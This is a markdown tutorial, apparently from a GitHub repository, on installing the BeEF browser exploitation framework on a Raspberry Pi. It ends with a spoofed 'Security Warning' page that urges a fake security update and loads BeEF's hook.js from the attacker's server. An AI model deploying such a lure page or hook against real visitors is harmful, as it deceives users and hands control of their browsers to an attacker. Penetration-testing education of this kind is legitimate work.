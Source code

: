 # BeEF on Raspberry PI

BeEF (_Browser Exploitation Framework_) is a penetration tool focused on exploiting vulnerabilities inside web browsers.

## Objective

The aim of this tutorial is to set up BeEF on Raspberry PI and to show you where you could place the `hook.js`.

## Install needed and/or optional packages

Install (_or ensure they are installed_) following packages.

```shell
# update system (optional)
$ sudo apt update -y && sudo apt upgrade -y

# install optional packages (optional)
$ sudo apt install -y vim

# install needed packages
$ sudo apt install -y ruby-full curl git build-essential openssl libreadline6-dev zlib1g zlib1g-dev libssl-dev libyaml-dev libsqlite3-0 libsqlite3-dev sqlite3 libxml2-dev libxslt1-dev autoconf libc6-dev libncurses5-dev automake libtool bison nodejs libcurl4-openssl-dev
```

## Install BeEF

```shell
# changer into home directory
$ cd ~

# clone git repository
$ git clone https://github.com/beefproject/beef.git

# change into cloned repository directory
$ cd beef/

# modify install script
$ vim install
```

On line 106 are two packages which are not available `gcc-9-base` and `libgcc-9-dev`. You must remove them from the file `/home/pi/beef/install`! If you have already installed all packages, you can comment this line.

```shell
...
if [ "${Distro}" = "Debian" ] || [ "${Distro}" = "Kali" ]; then
   sudo apt-get update
   # sudo apt-get install curl git build-essential openssl libreadline6-dev zlib1g zlib1g-dev libssl-dev libyaml-dev libsqlite3-0 libsqlite3-dev sqlite3 libxml2-dev libxslt1-dev autoconf libc6-dev libncurses5-dev automake libtool bison nodejs libcurl4-openssl-dev gcc-9-base libgcc-9-dev
...
```

To save a lot of time, you can add `--no-document` into command `sudo gem${RUBYSUFFIX} update --system` on line 205.

## BeEF configuration

Just change username and password on `/home/pi/beef/config.yaml`.

```shell
# modify config.yaml
$ vim config.yaml
```

Read this [Wiki](https://github.com/beefproject/beef/wiki/Configuration) for more information's.

## Start BeEF

```shell
# start BeEF
$ ./beef
```

## Prepare the spoofed domain page

Content of file `/var/www/html/index.html`.

```html
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>Security Warning - with security update</title>
  <link type="text/css" rel="stylesheet" href="styles/style.css">
</head>
<body>
  <div id="warning">
    <h1>Security Warning</h1>
    <p>We have detected a serious security problem,<br /> 
       please install now the free security update!</p>
  </div>
  <div id="patch">
    <span><!-- placeholder security update --></span>
  </div>
<script type="text/javascript" src="scripts/script.js"></script>
<script src="http://192.168.0.1:3000/hook.js"></script>
</body>
</html>
```

Finally, open in your browser the URL `http://192.168.0.1:3000/ui/panel` and login with your credentials (_you have modified in the config.yaml_).

_Note: If you follow the output inside the terminal, you will see that some other packages are required. Install them if you need them (maybe in second terminal session) and execute the BeEF command again._

## Additional

If the client has JavaScript disabled, this attack will not work.

[Go Back](../readme.md)
